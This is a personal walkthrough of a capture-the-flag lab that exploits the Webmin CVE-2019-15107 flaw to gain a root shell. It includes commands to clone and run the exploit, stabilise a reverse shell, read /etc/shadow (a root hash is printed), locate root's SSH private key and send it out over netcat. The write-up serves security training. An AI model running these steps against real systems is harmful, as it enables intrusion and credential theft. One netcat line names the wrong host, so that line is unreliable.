 In the previous task we found a vulnerable service[[1]](https://sensorstechforum.com/cve-2019-15107-webmin/)[[2]](https://www.webmin.com/exploit.html) running on the target which will give us the ability to execute commands on the target.

The next step would usually be to find an exploit for this vulnerability. There are often exploits available online for known vulnerabilities (and we will cover searching for these in an upcoming task!), however, in this instance, an exploit is provided [here](https://github.com/MuirlandOracle/CVE-2019-15107).

---

Start by cloning the repository. This can be done with the following command:

`git clone https://github.com/MuirlandOracle/CVE-2019-15107`  

This creates a local copy of the exploit on our attacking machine. Navigate into the folder then install the required Python libraries:

`cd CVE-2019-15107 && pip3 install -r requirements.txt`  

If this doesn't work, you may need to install pip before downloading the libraries. This can be done with:  
`sudo apt install python3-pip`  

The script should already be executable, but if not, add the executable bit (`chmod +x ./CVE-2019-15107.py`).

Never run an unknown script from the internet! Read through the code and see if you can get an idea of what it's doing. (Don't worry if you aren't familiar with Python -- in this case the exploit was coded by the author of this content and is being run in a lab environment, so you can infer that it isn't malicious. It is, however, good practice to read through scripts before running them).  

Once you're satisfied that the script will do what it says it will, run the exploit against the target!

`./CVE-2019-15107.py TARGET_IP`

![Demonstration of the exploit](https://assets.tryhackme.com/additional/wreath-network/a876ed2dd7ce.png)

---

[1] [https://sensorstechforum.com/cve-2019-15107-webmin/](https://sensorstechforum.com/cve-2019-15107-webmin/)  
[2] [https://www.webmin.com/exploit.html](https://www.webmin.com/exploit.html)  

Answer the questions below

Run the exploit and obtain a pseudoshell on the target!  

1. Which user was the server running as?  

**root**

![[Pasted image 20240719044424.png]]

Success! We won't need to escalate privileges here, so we can move on to the next step in the exploitation process.

Before we do though: nice though this pseudoshell is, it's not a full reverse shell.

Get a reverse shell from the target. You can either do this manually, or by typing `shell` into the pseudoshell and following the instructions given.  

![[Pasted image 20240719044743.png]]

![[Pasted image 20240719044757.png]]


2. **Optional:** Stabilise the reverse shell. There are several techniques for doing this detailed [here](https://tryhackme.com/room/introtoshells).  

```php
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- CTRL+Z

```php
stty raw -echo && fg
```

```php
export TERM=xterm-256-color
```

Now for a little post-exploitation!

3. What is the root user's password hash?  

```php
cat /etc/shadow
```

```php
root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::
```

Hash:

```php
$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1
```

You won't be able to crack the root password hash, but you might be able to find a certain file that will give you consistent access to the root user account through one of the other services on the box.

4. What is the full path to this file?  

```php
find / -name "*id_rsa*" -ls 
```

```php
 13884118      4 -rw-------   1  root     root         2602 Nov  7  2020 /root/.ssh/id_rsa
 13884119      4 -rw-r--r--   1  root     root          748 Jul 18 20:13 /root/.ssh/id_rsa.pub
```

**/root/.ssh/id_rsa**

Download the key (copying and pasting it to a file on your own Attacking Machine works), then use the command `chmod 600 KEY_NAME` (substituting in the name of the key) to obtain persistent access to the box.  

Me
```php
nc -lvp 4444 > FILE
```

Target
```php
nc <Target> 4444 -w 3 < FILE
```


We have everything we need for now. Let's move on to the next section: Pivoting!

**Completed:** 2024-07-19

